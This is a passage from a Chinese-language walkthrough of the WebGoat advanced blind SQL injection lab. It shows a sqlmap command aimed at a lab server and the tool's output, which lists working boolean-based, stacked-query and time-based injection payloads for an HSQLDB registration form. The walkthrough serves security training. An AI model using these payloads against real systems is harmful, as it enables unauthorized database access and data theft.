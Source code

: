 ![sqli-advanced-blindi-05](images\lab_sqli\sqli-advanced-blindi-05.png)

结果令人满意：），显然存在着漏洞。总的来看有两种情况的服务器响应信息：

- “User *** created, please proceed to the login page.”
- "User *** already exists please try to register with a different username."



使用chrome开发者工具截取并观察流量，使用sqlmap时：
```
sqlmap -u http://10.10.10.129:8080/WebGoat/SqlInjection/challenge  --cookie "JSESSIONID=873037C186F14C0F4E34EF048F7752CE" --data "username_reg=§newuser&email_reg=123@401.com&password_reg=123&confirm_password_reg=123" --method "PUT" 
```

结果如下：
```
[*] starting @ 18:24:18 /2019-08-27/

[18:24:19] [INFO] resuming back-end DBMS 'hsqldb' 
[18:24:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username_reg (PUT)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username_reg=§newuser' AND 3279=3279 AND 'GonP'='GonP&email_reg=123@401.com&password_reg=123&confirm_password_reg=123

    Type: stacked queries
    Title: HSQLDB >= 1.7.2 stacked queries (heavy query - comment)
    Payload: username_reg=§newuser';CALL REGEXP_SUBSTRING(REPEAT(RIGHT(CHAR(1681),0),500000000),NULL)--&email_reg=123@401.com&password_reg=123&confirm_password_reg=123

    Type: time-based blind
    Title: HSQLDB > 2.0 AND time-based blind (heavy query)
    Payload: username_reg=§newuser' AND CHAR(109)||CHAR(120)||CHAR(102)||CHAR(85)=REGEXP_SUBSTRING(REPEAT(LEFT(CRYPT_KEY(CHAR(65)||CHAR(69)||CHAR(83),NULL),0),500000000),NULL) AND 'StIP'='StIP&email_reg=123@401.com&password_reg=123&confirm_password_reg=123
---
[18:24:19] [INFO] the back-end DBMS is HSQLDB
```